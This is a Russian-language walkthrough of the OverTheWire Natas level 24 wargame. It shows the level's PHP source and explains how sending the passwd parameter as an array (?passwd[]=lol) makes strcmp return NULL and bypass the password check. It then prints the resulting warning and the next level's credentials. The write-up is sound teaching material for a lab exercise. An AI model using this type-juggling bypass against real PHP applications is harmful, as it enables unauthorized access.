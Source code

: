 ```php
<?php
if(array_key_exists("passwd",$_REQUEST)){
	if(!strcmp($_REQUEST["passwd"],"<censored>")){
		echo "<br>The credentials for the next level are:<br>";
		echo "<pre>Username: natas25 Password: <censored></pre>";           }
	else{
		echo "<br>Wrong!<br>";
		}
	}
?>
```
очевидно что, задача состоит в том, чтобы strcmp вернула ноль
это произойдет в случае если passwd будет такой же, как и на сервере
ЛИБО
как указано тут в комментариях:
https://www.php.net/manual/ru/function.strcmp.php
```php
strcmp("foo", array()) => NULL + PHP Warning
```
если одна из переменных будет массивом
для этого сделаем следующий пэйлоуд
```url
http://natas24.natas.labs.overthewire.org/?passwd[]=lol
```

и получаем результат
**Warning**: strcmp() expects parameter 1 to be string, array given in **/var/www/natas/natas24/index.php** on line **23**  
  
The credentials for the next level are:  

Username: natas25
Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws
